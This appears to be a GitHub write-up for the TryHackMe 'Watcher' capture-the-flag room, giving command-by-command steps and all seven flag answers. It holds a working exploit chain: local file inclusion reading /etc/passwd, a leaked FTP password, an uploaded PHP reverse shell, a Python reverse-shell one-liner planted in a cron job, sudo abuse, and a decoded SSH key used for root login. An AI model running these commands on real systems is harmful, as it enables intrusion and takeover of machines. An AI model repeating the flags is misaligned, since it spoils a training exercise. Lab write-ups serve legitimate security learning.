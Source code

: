 # <div align="center">[Watcher](https://tryhackme.com/r/room/watcher)</div>
<div align="center">A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7d7d90e8-a152-4829-bb39-6fb14cab3727" height="200"></img>
</div>

# Task 1. Watcher

Work your way through the machine and try to find all the flags you can!

Flag 1

* ```nmap -sSCV <IP>```
* ```curl -s http://<IP>/robots.txt```
* ```curl -s http://<IP>/flag_1.txt```
```
FLAG{robots_dot_text_what_is_next}
```
Flag 2
* ```curl -s http://<IP>/secret_file_do_not_read.txt```
* ```curl -s http://<IP>/post.php?post=/etc/passwd```
* ```curl -s http://<IP>/post.php?post=secret_file_do_not_read.txt```
* ```ftp <IP>```
* ```ftpuser:givemefiles777```
* ```ls -la```
* ```get flag_2.txt -```
```
FLAG{ftp_you_and_me}
```
Flag 3
* ```ftp <IP>```
* ```ftpuser:givemefiles777```
* ```cd files```
* ```ls -la```
* ```put rev.php```
* ```ls -la```
* ```pwd```
* ```exit```
* ```curl -s http://<IP>/post.php?post=/home/ftpuser/ftp/files/rev.php```
* ```nc -nlvp 4444```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```id```
* ```find / -type f -name flag_3.txt 2>/dev/null```
* ```cat /var/www/html/more_secrets_a9f10a/flag_3.txt```
```
FLAG{lfi_what_a_guy}
```
Flag 4
* ```find / -type f -name flag_4.txt -exec ls -l {} + 2>/dev/null```
* ```sudo -l```
* ```sudo -u toby /bin/bash```
* ```cat /home/toby/flag_4.txt```
```
FLAG{chad_lifestyle}
```
Flag 5
* ```find / -type f -name flag_5.txt -exec ls -l {} + 2>/dev/null```
* ```cat note.txt```
* ```cat /etc/crontab```
* ```ls -l /home/toby/jobs/cow.sh```
* ```cat > /home/toby/jobs/cow.sh << EOF```
* ```#!/bin/bash```
* ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'```
* ```EOF```
* ```nc -nlvp 4444```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```cd /home/mat```
* ```cat flag_5.txt```
```
FLAG{live_by_the_cow_die_by_the_cow}
```
Flag 6
* ```find / -type f -name flag_6.txt -exec ls -l {} + 2>/dev/null``
* ```cat /home/mat/note.txt```
* ```sudo -l```
* ```cat /home/mat/scripts/will_script.py```
* ```cat cmd.py```
* ##### ```nano```[cmd.py](./Watcher/cmd.py)  
* ```sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1```
* ```nc -nlvp 5555```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```id```
* ```cd /home/will```
* ```cat flag_6.txt```
```
FLAG{but_i_thought_my_script_was_secure}
```
Flag 7
* ```find / -type f -name flag_7.txt -exec ls -l {} + 2>/dev/null```
* ```id```
* ```find / -type f -group adm -exec ls -l {} + 2>/dev/null```
* ```cat /opt/backups/key.b64 | base64 -d > /home/will/ssh.key```
* ```chmod 600 ssh.key```
* ```ssh -i ssh.key root@<IP>```
* ```cd root```
* ```cat flag_7.txt```
```
FLAG{who_watches_the_watchers}
```
